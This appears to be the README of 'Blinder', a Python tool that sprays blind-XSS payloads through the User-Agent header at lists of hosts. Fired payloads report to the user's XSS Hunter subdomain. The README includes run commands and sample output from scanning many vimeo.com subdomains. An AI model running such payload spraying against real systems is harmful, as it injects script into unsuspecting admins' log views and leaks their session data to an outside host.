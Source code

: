 # Blinder
- A Tool Written In Python3 For Sending Blind-XSS Payloads On The User-Agent 

## Usage
```
git clone https://www.github.com/DEMON1A/Blinder.git
cd Blinder
python3 Blinder.py username.xss.ht SubDomains.txt
```

## Description
- Blinder Is Used To Send Blind-XSS Payloads With HTTP Requests On The User-Agent Header. In Case Some Web Application Is Showing The Logs To The Admin Without HTML Escaping. Blinder Take Two Args With The Run Command First One Should Be Your XSS-Hunter Sub-Domain That Will Sent You The Details If The XSS-Payload Is Fired. You Can Use Your Username Without ```.xss.ht``` If You Added ```-u``` At The End Of The Command For Example ```python3 Blinder.py username Hosts -u```

- Blinder Isn't That Fast So It Requires Good Internet Speed. If You Have Any Suggestions To Improve The Tool Speed With The Code. Feel Free To Contact Me Or Make Changes On The Code.

- I Will Update The Tool Soon So You Can Select Any Payload You Want With Other Headers But You Can Always Edit The Code With Whatever You Want To Use On It. Also All Of The Function On The Code Are Separated You Can Simply Import/Copy Them From The Code Into You Code By Removing The External Functions That You Won't Use So You Can Use The Function.

- Blinder Contains Basic Response Code Check. Feel Free To Add Any Response Code On StatusCheck Function With The Desription. And I Would Love To Mergo It Here.

- While Running Blinder. You Shouldn't Put Some Arg Before The Otherone. Or Put Args On Wrong Places. Blinder Is Using SYS To Get The Args Accroding To The Index Number. So You Should Use It Like This ```python3 {XSSHunter} {URLs-File} {MODE}``` For Example If You Put The MODE Before The URLs-File You WIll Get An Error Since The Programs Will Got That The MODE Is The File It Should Open.

### Output 
```
root@MohammedDief:~/Programing/PythonProjects/Blinder$ python3 Blinder.py {username}.xss.ht vimeo.com.robe 
Internal Server Error, Maybe From The User-agent, Check That. Url: https://dev.starlord.vimeo.com
Not Found Resource. But Seems The XSSPayload Got There, Url: https://1512435600.cloud.vimeo.com
Not Found Resource. But Seems The XSSPayload Got There, Url: https://1512435592.cloud.vimeo.com
Internal Server Error, Maybe From The User-agent, Check That. Url: http://dev.starlord.vimeo.com
Not Found Resource. But Seems The XSSPayload Got There, Url: https://1512435583.cloud.vimeo.com
Not Found Resource. But Seems The XSSPayload Got There, Url: http://1512435600.cloud.vimeo.com
Not Found Resource. But Seems The XSSPayload Got There, Url: http://1512435592.cloud.vimeo.com
Not Found Resource. But Seems The XSSPayload Got There, Url: http://1512435583.cloud.vimeo.com
Not Found Resource. But Seems The XSSPayload Got There, Url: https://1512476430.cloud.vimeo.com
Not Found Resource. But Seems The XSSPayload Got There, Url: https://1512476432.cloud.vimeo.com
Not Found Resource. But Seems The XSSPayload Got There, Url: https://1512435595.cloud.vimeo.com
Not Found Resource. But Seems The XSSPayload Got There, Url: http://1512476430.cloud.vimeo.com
Not Found Resource. But Seems The XSSPayload Got There, Url: http://1512476432.cloud.vimeo.com
Not Found Resource. But Seems The XSSPayload Got There, Url: http://1512435595.cloud.vimeo.com
Not Found Resource. But Seems The XSSPayload Got There, Url: https://1512435596.cloud.vimeo.com
Not Found Resource. But Seems The XSSPayload Got There, Url: http://1512435596.cloud.vimeo.com
Not Found Resource. But Seems The XSSPayload Got There, Url: https://1512435594.cloud.vimeo.com
Not Found Resource. But Seems The XSSPayload Got There, Url: http://1512435594.cloud.vimeo.com
Not Found Resource. But Seems The XSSPayload Got There, Url: https://magic.cloud.vimeo.com
Not Found Resource. But Seems The XSSPayload Got There, Url: http://magic.cloud.vimeo.com
Not Found Resource. But Seems The XSSPayload Got There, Url: https://live-api.cloud.vimeo.com
Not Found Resource. But Seems The XSSPayload Got There, Url: https://i.cloud.vimeo.com
Not Found Resource. But Seems The XSSPayload Got There, Url: http://live-api.cloud.vimeo.com
Not Found Resource. But Seems The XSSPayload Got There, Url: https://1512435597.cloud.vimeo.com
^C
Exit.
```
